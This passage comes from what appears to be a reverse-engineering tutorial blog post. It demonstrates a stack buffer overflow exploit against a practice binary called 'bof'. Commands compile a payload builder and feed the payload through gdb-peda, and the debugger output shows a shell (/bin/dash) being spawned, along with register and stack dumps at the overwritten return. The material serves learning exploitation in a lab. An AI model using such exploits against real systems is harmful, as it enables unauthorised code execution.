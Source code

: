     * Compile and run it and store the payload in **payload.txt**. 

            rev_eng_series/post_12$ gcc build_payload.c -o build_payload
            rev_eng_series/post_12$ ./build_payload

    * Now, we have the required payload. Let us run **bof** with gdb by injecting the above payload and check if it works or not. 

    * Let us run. 

            gdb-peda$ run < payload.txt

    * The following is the output I got. 

            Starting program: /home/adwi/ALL/rev_eng_series/post_12/bof < payload.txt
            Before calling func
            Address of buffer = 0xffffcbb8
            process 23243 is executing new program: /bin/dash
            warning: the debug information found in "/lib64/ld-2.23.so" does not match "/lib64/ld-linux-x86-64.so.2" (CRC mismatch).

            [Inferior 1 (process 23243) exited normally]
            Warning: not running or target is remote
            gdb-peda$ 

    * It says, executing new program: /bin/dash. 

    * Bingo!! The exploit has worked perfectly. 

    * Let us run through **func** 1 instruction at a time and confirm this. 

            gdb-peda$ b func
            Breakpoint 1 at 0x8048474
            gdb-peda$ run < payload.txt
    
    * The following is the state just before **ret** of **func** is executed. 

            [----------------------------------registers-----------------------------------]
            EAX: 0xffffcbb8 --> 0x6850c031 
            EBX: 0x0 
            ECX: 0xf7fac5a0 --> 0xfbad2098 
            EDX: 0xf7fad87c --> 0x0 
            ESI: 0xf7fac000 --> 0x1b1db0 
            EDI: 0xf7fac000 --> 0x1b1db0 
            EBP: 0x62626262 ('bbbb')
            ESP: 0xffffcc8c --> 0xffffcbb8 --> 0x6850c031 
            EIP: 0x804849f (<func+52>:	ret)
            EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
            [-------------------------------------code-------------------------------------]
            0x804849a <func+47>:	add    esp,0x10
            0x804849d <func+50>:	nop
            0x804849e <func+51>:	leave  
            => 0x804849f <func+52>:	ret    
            0x80484a0 <main>:	lea    ecx,[esp+0x4]
            0x80484a4 <main+4>:	and    esp,0xfffffff0
            0x80484a7 <main+7>:	push   DWORD PTR [ecx-0x4]
            0x80484aa <main+10>:	push   ebp
            [------------------------------------stack-------------------------------------]
            0000| 0xffffcc8c --> 0xffffcbb8 --> 0x6850c031 
            0004| 0xffffcc90 --> 0xf7fa0000 --> 0xe4a0288 
            0008| 0xffffcc94 --> 0xffffccb0 --> 0x1 
            0012| 0xffffcc98 --> 0x0 
            0016| 0xffffcc9c --> 0xf7e12637 (<__libc_start_main+247>:	add    esp,0x10)
            0020| 0xffffcca0 --> 0xf7fac000 --> 0x1b1db0 
            0024| 0xffffcca4 --> 0xf7fac000 --> 0x1b1db0 
            0028| 0xffffcca8 --> 0x0 
            [------------------------------------------------------------------------------]
            Legend: code, data, rodata, value
            0x0804849f in func ()